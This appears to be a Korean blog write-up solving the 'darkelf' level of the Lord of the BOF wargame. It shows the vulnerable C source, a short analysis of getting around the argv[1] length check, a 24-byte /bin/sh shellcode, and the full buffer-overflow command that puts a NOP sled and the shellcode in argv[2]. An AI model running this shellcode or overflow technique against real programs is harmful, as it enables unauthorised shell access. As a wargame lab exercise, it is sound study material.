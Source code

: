 ```yaml
---
title: "[LOB]Level06. darkelf"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180829
modify_date: 2018-08-29
article_header:
  type: cover
  image:
    src: 
---
```


[+ Check Length of argv[1]](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // buffer hunter
    memset(buffer, 0, 40);
}
```



------

### 0x01. Analysis

wolfman 문제에서 추가된 부분은 argv[1]의 크기가 48보다 크면 안된다.

쉽게 생각하면 된다. argv[1]의 크기를 제한하고 있으니 argv[2]에 넣으면 된다. ㅋㅋㅋㅋ

------

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

argv[2]에 NOP슬라이드와 쉘코드를 넣기 위해 core덤프를 통해 해당 주소를 구해오자.



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/06.darkelf/image-20180829014308881.png" width="800px">

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/06.darkelf/image-20180829015830365.png" width="600px">

argv[2]의 주소는 0xbffffbde로 확인되었다.



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/06.darkelf/image-20180829014955949.png" width="700px">



```
./darkelf `python -c 'print "A"*44+"\xde\xfb\xff\xbf"'` `python -c 'print "\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```

-----

